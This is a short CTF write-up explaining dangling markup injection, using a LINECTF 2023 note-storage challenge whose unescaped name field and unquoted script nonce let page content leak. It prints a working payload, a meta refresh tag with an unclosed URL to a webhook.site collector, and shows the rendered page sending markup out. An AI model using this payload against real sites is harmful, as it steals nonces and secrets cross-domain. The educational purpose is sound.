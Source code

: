 # Dangling markup injection

## Definition

> Dangling markup injection is a technique for capturing data cross-domain in situations where a full cross-site scripting attack isn't possible. - by PortSwigger

## Example

I learned this trick in an another-secure-store-note of LINECTF 2023. It was very expressive.

```html
<div class=main>
  <h1>📕 <%- name %> secured notes 📕</h1>
  <div>
      ... 
  </div>
  <div class=main>
      Can you tell me a secret? It will securely kept in "localStorage" of this page.
      <textarea id=secret></textarea>
      <input id=submit_storage type=submit value=Store>
      <script nonce=<%= nonce %> type='application/javascript'>
        const btn = document.getElementById('submit_storage');
        btn.addEventListener('click', (e) => {
          localStorage.setItem('secret', document.getElementById('secret').value);
          const resp = document.getElementById('response');
          resp.innerText = 'Successfully stored secret';
          setTimeout(() => resp.innerText = '', 1500);
        });
      </script>
      <p id=response></p>
  </div>
  <%- include('footer.ejs') %>
</div>
```

I have to get a nonce value to satisfy Content Security Policy. The part `<%- name %>` is possible to insert html code.&#x20;

```html
<script nonce=<%= nonce %> type='application/javascript'>  
```

We can see that the nonce is set without a single or double quotation. So, If we insert html code like `<meta http-equiv="refresh" content='1; url=https://webhook.site/asdf` , we can send the contents before the first single quotation of type attribute in script tag to an attacker site.&#x20;

```html
<%- include('header.ejs') %>
<body>
  <div class=content>
    <ul>
      <li><a class=active href='/'>Home</a></li>
      <li><a href=/bot>Talk to admin</a></li>
    </ul>
    <img src=csp.gif>

    <div class=main>
      <h1>📕 <meta http-equiv="refresh" content='1; url=https://webhook.site/395eb18c-6d82-4d05-9b50-369dd6bac054 secured notes 📕</h1>
      <div>
        <form method=POST>
          Wanna change your name?
          <input class=change-name type=text name=name placeholder="🐻 Brown">
          <input type=hidden name=csrf id=_csrf>
          <input type=submit value=Submit>
          <p class=red id=error></p>
          <p class=green id=message></p>
        </form>
      </div>
    </div>

    <div class=main>
      Can you tell me a secret? It will securely kept in "localStorage" of this page.
      <textarea id=secret></textarea>
      <input id=submit_storage type=submit value=Store>
      <script nonce=<%= nonce %> type='application/javascript'>
        const btn = document.getElementById('submit_storage');
        btn.addEventListener('click', (e) => {
          localStorage.setItem('secret', document.getElementById('secret').value);
          const resp = document.getElementById('response');
          resp.innerText = 'Successfully stored secret';
          setTimeout(() => resp.innerText = '', 1500);
        });
      </script>
      <p id=response></p>
    </div>
  </div>
  <%- include('footer.ejs') %>
</body>
```

However, chrome browser blocks HTTP URLs with "<" and "\n" character. So our dangling markup will not work in chrome based browser. It works in Firefox browser.

## References

1. [https://portswigger.net/web-security/cross-site-scripting/dangling-markup](https://portswigger.net/web-security/cross-site-scripting/dangling-markup)

